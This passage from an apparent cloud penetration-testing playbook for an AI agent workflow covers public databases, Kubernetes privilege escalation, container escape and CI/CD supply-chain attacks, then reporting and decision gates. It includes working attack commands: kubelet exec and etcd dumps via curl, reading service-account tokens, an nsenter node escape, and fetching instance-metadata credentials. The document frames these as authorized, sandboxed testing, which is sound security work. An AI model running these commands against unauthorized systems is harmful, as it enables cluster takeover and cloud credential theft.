    --query 'DBInstances[?PubliclyAccessible].[DBInstanceIdentifier,Endpoint.Address,Engine]' --output table | tee "$RUN/network/rds-public.txt"
  aws --profile lowpriv rds describe-db-snapshots --snapshot-type public --query 'DBSnapshots[].DBSnapshotIdentifier' --output text
  az sql server list --query '[].{n:name,pub:publicNetworkAccess,admin:administratorLogin}' -o table
  gcloud sql instances list --format='value(name)' \
    | while read i; do gcloud sql instances describe "$i" --format='value(settings.ipConfiguration.authorizedNetworks)'; done | tee "$RUN/network/cloudsql.txt"
  ```
- **Indicators:** `PubliclyAccessible=true` with a resolvable endpoint; `authorizedNetworks` containing `0.0.0.0/0`; public RDS snapshots.
- **Validation:** From an authorized test host, confirm the port is reachable (`nc -vz endpoint 5432`) — do not brute creds; combine with P7-harvested creds for a single authenticated read-only connect to prove access.
- **Evasion / edge cases:** "Public" still requires an open SG (cross-check 8.2). Cosmos DB/DocumentDB/ElastiCache/Memorystore have their own public-access flags — enumerate each engine.
- **Severity:** Critical if reachable + weak/leaked creds (~9.1); High for exposed-but-authed.
- **Dispatch:** -> provider agent

### Technique 8.2 — Overly permissive network controls

- **Objective / hypothesis:** Security groups / NSGs / firewall rules allow `0.0.0.0/0` to sensitive ports (22/3389/3306/5432/6379/9200/27017).
- **Procedure:**
  ```bash
  aws --profile lowpriv ec2 describe-security-groups \
    --query "SecurityGroups[?IpPermissions[?IpRanges[?CidrIp=='0.0.0.0/0']]].{ID:GroupId,Rules:IpPermissions}" > "$RUN/network/sg-open.json"
  az network nsg list -o json | jq '[.[].securityRules[]|select(.access=="Allow" and (.sourceAddressPrefix=="*" or .sourceAddressPrefix=="0.0.0.0/0"))]' > "$RUN/network/nsg-open.json"
  gcloud compute firewall-rules list --format=json | jq '[.[]|select(.sourceRanges|index("0.0.0.0/0"))]' > "$RUN/network/gcp-fw-open.json"
  ```
- **Indicators:** `0.0.0.0/0`/`*` source on admin/database ports; chained with 8.1 public DBs.
- **Validation:** Confirm a listed rule maps to a live, reachable resource (cross-ref ENIs/public IPs from P1). Probe only authorized targets.
- **Evasion / edge cases:** NACLs/route tables and provider WAFs may still block; effective exposure = SG-allow AND public IP/route AND no upstream deny. Note IPv6 (`::/0`).
- **Severity:** High (exposure) escalating to Critical when fronting a vulnerable/authless service.
- **Dispatch:** -> provider agent -> CloudExploitationAgent (for follow-on service exploit)

**Phase artifacts:** `$RUN/network/{rds-public.txt,cloudsql.txt,sg-open.json,nsg-open.json,gcp-fw-open.json}`.

**Gate-out:** All data services and network rules triaged; reachable + exploitable combinations flagged for chaining. 8.1/8.2 parallelize.

---

## Phase 9: KUBERNETES & CONTAINER PLATFORMS

**Objective:** From cluster reach (in-cluster pod, kubeconfig, or exposed control plane), enumerate and escalate: RBAC privesc, exposed API server/kubelet/etcd, service-account token abuse, and pod-to-node/container escape.

**Expert rationale:** A namespaced foothold (one pod) frequently reaches cluster-admin via over-broad RBAC, a mounted SA token, or a node escape — and the node holds the cloud instance identity (loops back to P2/P4). Treat the cluster as both a target and a pivot into the cloud account.

**Gate-in:** A kubeconfig, an in-cluster shell (from P6/exploit), or a reachable API/kubelet/etcd from P1/P8. `kubectl`/peirates/kdigger/kube-hunter available (`piranha tools kubernetes`).

### Technique 9.1 — RBAC enumeration & privilege escalation

- **Objective / hypothesis:** Current SA/user holds rights that escalate to cluster-admin (`create pods` with a privileged SA, `escalate`/`bind` verbs, secret read, `create token`, `impersonate`).
- **Procedure:**
  ```bash
  KUBECONFIG="$RUN/k8s/kubeconfig" kubectl auth can-i --list 2>&1 | tee "$RUN/k8s/cani.txt"
  kubectl get clusterrolebindings -o json | jq '.items[]|select(.roleRef.name=="cluster-admin")|.subjects'
  # kdigger / peirates for guided enumeration from inside a pod
  kdigger dig all | tee "$RUN/k8s/kdigger.txt"
  peirates   # interactive: list SA secrets, test pod-creation privesc
  ```
- **Indicators:** `create/patch pods` (+ ability to set `serviceAccountName` to a privileged SA), `secrets get/list`, `bind`/`escalate` on roles, `create serviceaccounts/token`, `impersonate users/groups`.
- **Validation:** Prove the edge: create a benign pod that mounts a privileged SA and reads a previously-denied secret; or `kubectl create token <priv-sa>` and use it. Delete the proof pod, log cleanup.
- **Evasion / edge cases:** Pod Security Admission/OPA/Kyverno may block privileged/hostPath pods — note the policy and pivot to allowed paths (e.g., `ephemeralContainers`, `nodes/proxy`). `escalate` verb bypasses the normal "can't grant what you don't have" rule.
- **Severity:** Critical (cluster-admin = all workloads/secrets). ~9.0.
- **Dispatch:** -> KubernetesAgent

### Technique 9.2 — Exposed control plane (API server / kubelet / etcd)

- **Objective / hypothesis:** API server allows anonymous/over-broad access; kubelet `:10250` is unauthenticated; etcd `:2379` is reachable.
- **Procedure:**
  ```bash
  kube-hunter --remote "$API_IP" --report json > "$RUN/k8s/kube-hunter.json"
  curl -sk -A "$UA" "https://$API_IP:6443/api/v1/namespaces/default/secrets"   # anonymous?
  curl -sk "https://$NODE_IP:10250/pods"                                       # kubelet read
  curl -sk "https://$NODE_IP:10250/run/$NS/$POD/$CONTAINER" -d "cmd=id"        # kubelet exec
  etcdctl --endpoints="https://$ETCD_IP:2379" get / --prefix --keys-only | head
  ```
- **Indicators:** Anonymous API returns resources; kubelet `/pods` lists pods and `/run|/exec` runs commands; etcd returns keys (cluster secrets in plaintext).
- **Validation:** Anonymous read of a secret, kubelet command output (`id`), or an etcd key dump confirms; baseline that anonymous access is unintended.
- **Evasion / edge cases:** Kubelet may require client cert (`--client-certificate`) — try the node's own cert if you have node files. etcd often mTLS-gated; reachable-but-mTLS is still a network finding (8.2).
- **Severity:** Critical (etcd/anon-API = full cluster control). ~9.4.
- **Dispatch:** -> KubernetesAgent

### Technique 9.3 — Service-account token abuse

- **Objective / hypothesis:** The pod's mounted SA token (`/var/run/secrets/kubernetes.io/serviceaccount/token`) has more rights than the workload needs, or projected/long-lived tokens are reusable.
- **Procedure:**
  ```bash
  TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
  APISERVER=https://kubernetes.default.svc
  curl -sk -A "$UA" -H "Authorization: Bearer $TOKEN" "$APISERVER/api/v1/namespaces/$NS/secrets"
  kubectl --token="$TOKEN" auth can-i --list
  ```
- **Indicators:** Token reads secrets / lists cluster resources beyond the pod's job; `automountServiceAccountToken` not disabled.
- **Validation:** Token performs a previously-denied read; cross-check the SA's RBAC.
- **Evasion / edge cases:** Bound projected tokens are audience/time-scoped — check `exp`/`aud`. Legacy non-expiring secret-type tokens are reusable off-cluster.
- **Severity:** High-to-Critical depending on the SA's RBAC.
- **Dispatch:** -> KubernetesAgent

### Technique 9.4 — Pod-to-node escape & cloud pivot

- **Objective / hypothesis:** A privileged/hostPath/hostPID/hostNetwork pod (or a CVE) escapes to the node; the node's IMDS/instance identity then re-enters the cloud account (loops to P2/P4).
- **Procedure (sandbox):**
  ```bash
  # Identify escape-prone pods
  kubectl get pods -A -o json | jq '.items[]|select(.spec.containers[].securityContext.privileged==true or .spec.volumes[]?.hostPath or .spec.hostPID==true or .spec.hostNetwork==true)|.metadata.name'
  # In a privileged pod: detect + escape primitives (non-destructive proof)
  cat /proc/1/cgroup; ls -la /var/run/docker.sock; capsh --print; nsenter --target 1 --mount --uts --ipc --net --pid -- id
  # From the node: re-hit cloud metadata (provider-specific) -> back to P2
  curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/
  ```
- **Indicators:** `privileged: true`, mounted `docker.sock`, `CAP_SYS_ADMIN`, hostPath `/`, successful `nsenter` into PID 1, node-level command execution, node IMDS creds.
- **Validation:** Run `id`/`hostname` on the node (proof of escape) and `get-caller-identity` with node creds (proof of cloud pivot). No destructive actions on the node.
- **Evasion / edge cases:** gVisor/Kata sandboxes block classic escapes; AppArmor/seccomp/PSA restrict caps. Managed nodes (EKS/AKS/GKE) still expose IMDS unless hop-limit/metadata-concealment is set — that gap is the chain.
- **Severity:** Critical (node + cloud account). ~9.3.
- **Dispatch:** -> KubernetesAgent -> CloudExploitationAgent (cloud pivot)

**Phase artifacts:** `$RUN/k8s/{cani.txt,kdigger.txt,kube-hunter.json,sa-token-abuse.txt,escape.txt}`, proof pod manifests, `cleanup.log`.

**Gate-out:** Cluster RBAC, control-plane exposure, SA-token reach, and escape paths all assessed; cluster-admin or node/cloud pivot proven where present. 9.1/9.2/9.3 parallelize; 9.4 follows once an escape-prone pod is found.

---

## Phase 10: SUPPLY CHAIN & CI/CD

**Objective:** Attack the pipeline that builds and deploys the cloud: GitHub Actions (and equivalents) OIDC trust, Poisoned Pipeline Execution, unpinned actions, dependency confusion, and leaked registry/CI tokens.

**Expert rationale:** CI/CD often holds the most powerful cloud credentials (deploy roles, OIDC trust to admin roles). Compromising a workflow is frequently a shorter path to prod than in-account privesc — and OIDC misconfig grants cloud access with no stored secret at all.

**Gate-in:** Repo/pipeline in scope (from recon or provided), or CI artifacts/tokens surfaced in P2/P6/P7.

### Technique 10.1 — GitHub Actions OIDC trust abuse

- **Objective / hypothesis:** A cloud role's trust policy over-trusts the GitHub OIDC provider (e.g., `sub` wildcard, missing repo/branch/environment condition), so any workflow — even from a fork/PR — can assume it.
- **Procedure:**
  ```bash
  # Inspect the role's OIDC trust (from P3 dumps)
  jq '.RoleDetailList[]|select(.AssumeRolePolicyDocument|tostring|test("token.actions.githubusercontent.com"))
      |{role:.RoleName,trust:.AssumeRolePolicyDocument}' "$RUN/iam/aws-authz.json" | tee "$RUN/supplychain/oidc-trust.json"
  # In an authorized test repo/branch, request an OIDC token and exchange it
  #   (workflow): permissions: id-token: write; then
  #   ACTIONS_ID_TOKEN_REQUEST_URL/TOKEN -> aws sts assume-role-with-web-identity --web-identity-token <jwt>
  ```
- **Indicators:** Trust `Condition` lacks `token.actions.githubusercontent.com:sub` repo/branch/environment pinning, or uses `repo:org/*:*` / `StringLike` with `*`; allows `aud` mismatch; allows PR (`pull_request`) refs.
- **Validation:** From an authorized repo that matches the loose condition, mint an OIDC JWT and `assume-role-with-web-identity` -> `get-caller-identity` returns the deploy/admin role. Do not test from unauthorized repos.
- **Evasion / edge cases:** GCP Workload Identity Federation and Azure federated credentials have the identical class of bug (over-broad `subject`/`attribute.repository` mapping). Check `aud` and the issuer's `sub` claim format.
- **Severity:** Critical (keyless cloud access from CI). ~9.1.
- **Dispatch:** -> SupplyChainAgent

### Technique 10.2 — Poisoned Pipeline Execution (PPE)

- **Objective / hypothesis:** A workflow runs untrusted input (PR code, `pull_request_target`, issue/comment triggers) with access to secrets/cloud creds, allowing attacker-controlled steps to run in the privileged context.
- **Procedure:**
  ```bash
  # Find risky triggers + secret usage in workflow files
  grep -RInE 'pull_request_target|workflow_run|issue_comment|on:\s' .github/workflows/ | tee "$RUN/supplychain/triggers.txt"
  grep -RInE 'secrets\.|\$\{\{\s*github\.event' .github/workflows/
  # Direct (D-PPE): editable build script (Makefile/npm scripts) executes in CI
  # Indirect (I-PPE): inject via pipeline config the build consumes
  ```
- **Indicators:** `pull_request_target` + checkout of PR head + use of `secrets.*`; `${{ github.event.* }}` interpolated into `run:` (script injection); buildable scripts a contributor can edit run with prod creds.
- **Validation:** In an authorized PR/branch, add a benign step that echoes a Collaborator callback (never exfil real secrets) to prove attacker code executes in the privileged job. Confirm the job had cloud creds via its OIDC/role.
- **Evasion / edge cases:** `${{ github.event.issue.title }}`-style injection bypasses "no PR code" defenses. Self-hosted runners persist state between jobs (runner takeover). Required reviewers/`environment` protection may gate secrets — note if present.
- **Severity:** Critical (CI RCE with prod creds). ~9.0.
- **Dispatch:** -> SupplyChainAgent -> RCEAgent

### Technique 10.3 — Unpinned / mutable actions & build deps

- **Objective / hypothesis:** Actions referenced by mutable tag (`@v4`, `@main`) or deps pulled unpinned allow upstream/tag-rewrite compromise to execute in CI.
- **Procedure:**
  ```bash
  grep -RInE 'uses:\s*[^@]+@(v?[0-9]+|main|master|latest)\b' .github/workflows/ | tee "$RUN/supplychain/unpinned.txt"
  # Lockfile / pin audit
  grep -RIL 'integrity"\|--hash=' . 2>/dev/null | grep -E 'package.json|requirements.txt' | head
  ```
- **Indicators:** `uses: third/party@v1`/`@main` (not a full commit SHA); deps without lockfile hashes; actions from low-reputation/unverified authors.
- **Validation:** Document the mutable reference and the trust it inherits (which secrets/creds the job holds). Do not tamper with third-party upstreams — this is a posture finding unless you control the action.
- **Evasion / edge cases:** Even SHA-pinned actions can pull unpinned transitive deps at runtime. Distinguish exploitable (you can influence the upstream) from posture (you cannot).
- **Severity:** Medium-to-High (latent supply-chain exposure); High when combined with a controllable upstream.
- **Dispatch:** -> SupplyChainAgent

### Technique 10.4 — Dependency confusion

- **Objective / hypothesis:** An internal package name is unclaimed on the public registry; publishing it there gets it pulled into CI/builds (code exec in the pipeline).
- **Procedure:**
  ```bash
  # Extract internal-looking package names from manifests/lockfiles found in P6/repos
  jq -r '.dependencies,.devDependencies|keys[]?' package.json 2>/dev/null | tee "$RUN/supplychain/pkgs.txt"
  # Check public-registry availability (read-only)
  while read p; do echo "$p -> $(npm view "$p" version 2>&1 | head -1)"; done < "$RUN/supplychain/pkgs.txt"
  ```
- **Indicators:** Internal scoped/unscoped names returning `404`/`E404` on the public registry while referenced by builds; registry config without scoped `@org:registry` pinning.
- **Validation:** Confirm the name is unclaimed AND consumed by an in-scope build. Proof-of-concept publish only with explicit authorization, using a benign callback package and removing it after.
- **Evasion / edge cases:** Scoped packages with a configured private registry are safe; misconfigured `.npmrc`/`pip.conf` (public fallback) reintroduces risk. PyPI/RubyGems/NuGet have the same class.
- **Severity:** Critical if a publish would execute in CI/prod (~9.0); else High-posture.
- **Dispatch:** -> SupplyChainAgent

### Technique 10.5 — Leaked registry / CI tokens

- **Objective / hypothesis:** Container-registry creds (ECR/ACR/GCR/Artifact Registry), npm/PyPI tokens, or CI service tokens leaked in env/user-data/secrets/build logs grant push (image poisoning) or deploy.
- **Procedure:**
  ```bash
  trufflehog filesystem "$RUN/compute" "$RUN/secrets" --json | jq 'select(.DetectorName|test("Docker|NPM|PyPI|GitHub|GitLab|Artifactory"))' | tee "$RUN/supplychain/ci-tokens.json"
  # Validate registry token read-only (list, do not push)
  aws --profile lowpriv ecr describe-repositories --query 'repositories[].repositoryName' --output text
  ```
- **Indicators:** Valid registry/CI token; push/admin scope; token grants pull of private images (data) or push (supply-chain injection).
- **Validation:** Read-only confirm (list repos/images); a push proof only in a throwaway authorized repo with a benign tag, then delete.
- **Evasion / edge cases:** Short-lived registry tokens (ECR `get-login-password`) expire in 12h. Image-pull secrets in k8s (P9) double as registry creds. Distinguish pull (data) from push (integrity/supply-chain).
- **Severity:** High-to-Critical (image poisoning into prod). ~9.0 for push to prod registry.
- **Dispatch:** -> SupplyChainAgent / SecretsExposureAgent

**Phase artifacts:** `$RUN/supplychain/{oidc-trust.json,triggers.txt,unpinned.txt,pkgs.txt,ci-tokens.json}`, PoC workflow/branch references, `cleanup.log`.

**Gate-out:** OIDC trust, PPE, pinning, dependency-confusion, and token-leak surfaces all assessed; any CI-to-cloud path proven and handed to ValidatorAgent/ExploitChainAgent. 10.1-10.5 parallelize.

---

## Phase 11: REPORTING & HAND-OFF

**Objective:** Aggregate raw findings, validate and de-duplicate them, correlate into kill chains, and produce the final report plus a concise update of new tests performed.

**Expert rationale:** Volume is noise; a clean, reproducible, root-cause-deduplicated set of findings with one or two end-to-end kill chains (e.g., SSRF -> IMDS -> Secrets Manager -> RDS data, or low-priv user -> CI OIDC -> deploy role -> prod) is what moves remediation and pays out.

**Gate-in:** Findings produced by P1-P10 with artifacts in `$RUN`.

### Hand-off pipeline

1. **Aggregate.** Collect all `$RUN/**` artifacts and per-phase findings into `$RUN/findings.jsonl` (one object per candidate: id, phase, provider, resource, technique, evidence paths, attacker identity, severity-estimate).
2. **Validate (ValidatorAgent).** For each finding: reproduce with the exact captured request (Burp history/HAR), confirm against the `baseline` identity to kill "always-mine" false positives, de-duplicate by root cause (one over-permissive role behind ten symptoms = one finding), assign CVSS 3.1 and 4.0 vectors, and apply the hunt-mode gate (in-scope, in-program, reportable).
   ```bash
   bun "$TOOLS/burp-bridge.ts" --export-har --output "$RUN/evidence/full-session.har"
   # ValidatorAgent consumes $RUN/findings.jsonl + $RUN/evidence/
   ```
   -> ValidatorAgent
3. **Chain (ExploitChainAgent).** Correlate validated findings into MITRE ATT&CK / cloud kill chains, elevate combined CVSS where a chain crosses a trust boundary (e.g., web SSRF + IMDS + secret read + DB access = account-data compromise rated above any single link).
   -> ExploitChainAgent
4. **Final report.** Emit the report (template below) with executive summary, validated findings, kill chains, and remediation.

### Report template

```markdown
# Cloud Security Assessment — <TARGET>
## Executive Summary
- Scope: <accounts / subscriptions / projects / clusters>  (from $RUN/scope.allow)
- Window: <dates>   Highest impact reached: <e.g., account takeover via SSRF->IMDS->IAM>
- Findings: Critical <n> · High <n> · Medium <n> · Low <n>   Kill chains: <n>

## Kill Chains (ExploitChainAgent)
### KC-1 <name> — combined CVSS <score>
- Path: <P2.1 SSRF->IMDS> -> <P7.1 Secrets Manager> -> <P8.1 RDS data>
- Identities crossed: lowpriv -> ec2-role -> db-admin
- Evidence: <har/screenshots/artifact paths>

## Findings (ValidatorAgent, de-duped by root cause)
### CLOUD-001 <title>
- Severity: <Critical> · CVSS 3.1 <vector/score> · CVSS 4.0 <vector/score>
- Provider/Service/Resource: <...>   Attacker identity: <...>
- Description / Impact / Reproduction (exact commands + captured request) / Evidence / Remediation / References (CIS, provider best-practice)
```

### Concise N-point update (new tests performed)

Produce a short bullet list of the new tests this run executed and their outcome, for a status hand-off:

```markdown
- [P2] SSRF->IMDSv2 token theft on app.acme.com — CONFIRMED, ec2-role creds (Critical)
- [P4] AWS PassRole+Lambda to admin role — CONFIRMED in sandbox, reverted (Critical)
- [P5] s3://acme-backups public list+read of DB dumps — CONFIRMED (Critical)
- [P7] Secrets Manager mass-read via ec2-role — CONFIRMED, 14 secrets (Critical)
- [P9] EKS pod->node escape via hostPath, node IMDS pivot — CONFIRMED (Critical)
- [P10] GitHub Actions OIDC trust missing branch pin -> deploy role — CONFIRMED (Critical)
- [P8] No public RDS instances — tested, NEGATIVE
```

**Phase artifacts:** `$RUN/findings.jsonl`, `$RUN/evidence/full-session.har`, validated findings, kill-chain doc, final report, N-point update.

**Gate-out:** Report delivered; all sandbox-created resources confirmed torn down (`$RUN/cleanup.log` reconciled); vault sessions revoked/expired.

---

## Decision Gates

| Gate | Condition | Action |
|------|-----------|--------|
| Pre-flight | Burp not alive OR scope guard fails | STOP — fix proxy/scope before any call |
| Post-Recon (P1) | No cloud assets attributable | STOP — not a cloud target |
| Post-Foothold (P2) | No session minted, no public assets | Limit to P5/P8 unauthenticated, then report |
| Canary detected (P2.5) | Leaked key resolves to a honeypot account | STOP that key, do not enumerate, document |
| Post-Enum (P3) | Identity has no escalation/exfil edges | Document least-priv posture, skip P4 |
| Mutating action | About to run a write/privesc call | Sandbox + operator confirm; never destructive |
| Critical found | Account takeover / data exposure confirmed | Pause, capture full evidence, notify, continue scoped |
| Out-of-scope trust | A path leads to an unauthorized tenant | Document the path; do NOT traverse |
| Post-K8s (P9) | No cluster reachable | Skip P9 |
| Pre-report (P11) | Sandbox resources still live | Tear down + reconcile cleanup.log before delivery |

## Tool Reference

| Tool | Purpose | Install |
|------|---------|---------|
| pacu | AWS exploitation/enumeration framework | `pip install pacu` |
| ScoutSuite (`scout`) | Multi-cloud read-only security audit | `pip install scoutsuite` |
| Prowler | AWS/Azure/GCP best-practice + CIS checks | `pip install prowler` |
| cloudfox | AWS/Azure situational awareness, privesc leads | `go install github.com/BishopFox/cloudfox@latest` |
| enumerate-iam | IAM permission inference (no-list) | `git clone https://github.com/andresriancho/enumerate-iam` |
| ROADtools (`roadrecon`) | Entra ID offline graph enumeration | `pip install roadrecon` |
| AzureHound | Azure attack-path data for BloodHound | release binary / `go install` |
| kube-hunter | Kubernetes external/internal scanner | `pip install kube-hunter` |
| peirates | In-cluster K8s privesc/post-exploitation | release binary |
| kdigger | In-pod context discovery | release binary |
| trufflehog | Secret detection in fs/code/artifacts | `brew install trufflehog` |
| trivy | Container/filesystem/IaC scanner | `brew install trivy` |
| aws / az / gcloud / kubectl | Provider control-plane CLIs (proxied) | provider installers |
| burp-bridge.ts | Burp scope sync / HAR export / Collaborator | bundled (`Tools/`) |
| credential-vault.ts | Vaulted creds (never inline secrets) | bundled (`Tools/`) |
| auth-manager.ts | Console/SSO/consent auth flows | bundled (`Tools/`) |
| playwright-harness.ts | Authenticated browser/SSRF dynamic testing | bundled (`Tools/`) |
| agent-router.ts | Engagement -> ordered agent plan | bundled (`Tools/`) |
